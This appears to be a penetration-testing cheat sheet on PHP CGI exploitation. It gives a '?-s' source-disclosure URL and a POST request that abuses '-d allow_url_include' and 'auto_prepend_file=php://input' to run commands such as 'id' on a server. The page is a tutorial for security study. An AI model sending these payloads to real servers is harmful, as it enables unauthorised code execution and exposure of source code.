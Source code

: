 # PHP CGI Exploitation

## PHP CGI Source Disclosure

Passing '?-s' to any PHP file in a misconfiguration reveals the PHP source code of that file:

```text
http://10.10.10.10/?-s
```

## PHP CGI Remote Code Execution

The `-d` argument of php-cgi is another interesting parameter that we can use. This argument allows us to specify the configuration file's INI entries. When attempting to establish remote code execution, keep in mind that you should try to transmit PHP code to the server and have it interpret it. To accomplish this, we employ the wrapper php://input in order to parse the input.

For this, we'll need two things. On one hand, we'll need our request's PHP code to be read. We're seeking a PHP option that instructs PHP to read from a file and send it to `php://input`. Since PHP 4.2.3, the option auto prepend file has been available. The advantage of this option is that the contents of the file are included before any other file, in other words, it is the first option.

If we wish to use `php://input`, we must enable the URL to contain it, but this isn't a problem because the INI entries can be redefined. This is readily enabled with the `-d allow url include=1` option.

Assuming that we wanted to run the **id** command remotely, what we do is assemble a simple PHP script in advance which we send later via POST to the web with everything we have mentioned. As follows:

The decoded URL looks like this:

```text
"http://10.10.10.10/?-d allow_url_include=1 -d auto_prepend_file=php://input"
```

The encoded URL looks like this:

```text
echo "<?php system('id');die(); ?>" | POST "http://10.10.10.10/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```

References:

[https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/php-cgi-exploitation-by-example/](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/php-cgi-exploitation-by-example/)

